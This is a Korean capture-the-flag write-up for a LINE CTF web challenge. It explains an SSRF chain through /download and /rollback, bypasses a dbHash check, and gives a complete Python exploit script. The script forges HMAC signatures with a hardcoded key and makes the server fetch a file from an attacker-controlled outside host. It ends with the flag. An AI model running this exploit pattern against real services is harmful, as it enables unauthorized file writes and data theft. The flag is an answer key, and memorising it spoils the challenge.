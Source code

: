 - 시나리오 2
1. SSRF 취약점을 이용해서 /download로 요청을 보내서 임의의 파일을 생성함.
2. 또 다시 SSRF 취약점을 이용해서 /rollback로 요청을 보내 `FLAG`를 읽음 
3. 이때 해당 파일의 이름을 이용해서 `self.dbHash != dbHash` 구문을 우회함.
4. 마지막으로 `lang` 헤더를 읽으면 됨.

- 주의점
1. 파일을 생성할 때, `requests.get()` 함수를 이용해서 요청을 보내기 때문에 파일을 만들 때, `URL`을 전송해서 만들어주어야 함.
2. `RunRollbackDB()` 함수 내에서 `dbHash`의 값을 한 번 더 파싱하는데, 이때 `e.isalnum()`의 값이 참이어야 함.
3. 플래그를 읽을 때, 환경 변수 `ENV`의 값이 `Local`이 아니여야 하기 때문에 `5050` 포트가 아닌 `5000` 포트를 사용해주어야 함.

```python
import hmac
import hashlib
import requests

url = 'http://35.200.63.50/apis/'

Key = hashlib.sha512(('ed05a1c7ff6428dcf8d50901b6e78ba3').encode('ascii')).hexdigest()
print('[+] Key  : ' + Key)

def sign(KEY):
    privateKey = b'let\'sbitcorinparty'
    EN = hmac.new( privateKey , KEY.encode('utf-8'), hashlib.sha512 )
    return EN.hexdigest()

def integrityStatus():
    headers = {'Host':'localhost:5000', 'Lang':'/integrityStatus'}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/integreityStatus : ' + res.headers['lang'])

def download():
    headers = {'Host':'localhost:5000', 'Lang':'download?src=http://141.164.52.207/a123', 'Sign':sign('src=http://141.164.52.207/a123')}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/download : ' + res.headers['lang'])

def rollback():
    headers = {'Host':'localhost:5000', 'Lang':'/rollback?dbhash=a123', 'Sign':sign('dbhash=a123'), 'Key':Key}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/rollback : ' + res.headers['lang'])

if __name__ == '__main__':
    integrityStatus()
    download()
    rollback()
```

> FLAG : LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}

---
